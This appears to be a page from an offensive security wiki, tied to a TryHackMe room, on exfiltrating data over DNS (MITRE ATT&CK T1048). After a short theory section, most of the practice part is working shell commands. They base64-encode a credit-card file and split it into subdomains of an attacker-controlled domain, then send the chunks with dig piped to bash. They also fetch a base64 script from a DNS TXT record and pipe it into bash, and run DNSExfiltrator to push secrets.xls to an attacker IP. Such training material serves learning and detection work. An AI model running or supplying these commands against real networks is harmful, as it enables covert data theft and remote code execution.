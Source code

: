 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over DNS

## Theory

The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.\
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

* The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
* The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:\
1 - An attacker registers a domain name, for example, tunnel.com\
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.\
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.\
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.\
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.\
6 - Finally, the attacker extracts the password from the domain name.

## Practice

{% tabs %}
{% tab title="Manualy" %}
{% hint style="info" %}
We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% endhint %}

In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.

```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```

On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.

```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```

In order to send this datas, on the compromised host we can do:

```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:

```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol. We first need to create a `TXT` record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.\
On the attacking machine we do:

```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```

On the compromised host:

```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling

An other methode is to tunneling other protocols over DNS. Check this page for more details.

{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
